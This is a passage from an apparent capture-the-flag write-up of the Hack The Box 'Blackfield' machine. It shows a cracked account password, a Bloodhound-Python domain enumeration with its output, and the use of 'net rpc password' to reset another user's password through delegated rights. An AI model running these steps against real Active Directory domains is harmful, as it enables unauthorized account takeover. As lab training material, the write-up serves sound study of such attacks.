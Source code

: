 We successfully crack the hash of the `support` user with the password `#00^BlackKnight`.

### Bloodhound-Enumeration

Now that we have credentials for the `support` account, let us enumerate the Windows-Domain using Bloodhound. I will be using Bloodhound-Python, as 

```bash
root@darkness:~# bloodhound-python -u support -p '#00^BlackKnight' -c All -d blackfield.local -ns 10.10.10.192
INFO: Found AD domain: blackfield.local
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 315 users
INFO: Connecting to GC LDAP server: dc01.blackfield.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 00M 10S
root@darkness:~# ls *.json
computers.json  domains.json  groups.json  users.json
```

Looking at our owned `support@blackfield.local` account, we can filter for connection to other users. Let us check our relation to the `audit2020@blackfield.local` user.

![Relationship between users](/assets/htb/Blackfield/bloodhound-changepw.png)

Seems like `support` is allowed to change the password of the `audito2020` account.

#### Changing password via RPC

We can now use `net rpc password` to change the password of `audit2020`.

```bash
root@darkness:~# net rpc password audit2020 -U support -S 10.10.10.192
Enter new password for audit2020: P@ssw0rd
Enter WORKGROUP\support password: #00^BlackKnight
```

Now that we have changed the user's password, let us enumerate furhter.

### SMB (Authenticated) - Port 445
